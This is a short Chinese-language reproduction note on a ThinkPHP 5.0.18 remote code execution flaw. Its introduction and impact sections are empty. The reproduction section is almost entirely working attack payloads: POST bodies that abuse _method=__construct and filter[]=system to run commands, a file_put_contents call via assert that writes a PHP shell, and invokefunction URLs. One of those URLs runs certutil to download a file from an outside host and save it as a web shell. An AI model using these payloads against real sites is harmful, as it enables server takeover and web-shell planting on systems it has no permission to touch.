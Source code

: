 ```yaml
---
title: "Thinkphp 5.0.18"
id: zhfly3153
---
```


# Thinkphp 5.0.18

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> https://www.0-sec.org/?s=index/index

```
POST `s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> 写shell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET` 
```

### 1、windows

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=1 
```

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo() 
```

### 2、使用certutil

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=passthru&vars[1][0]=cmd /c certutil -urlcache -split -f https://www.hack.com/xxx.js uploads/1.php 
```

由于根目录没写权限，所以写到uploads
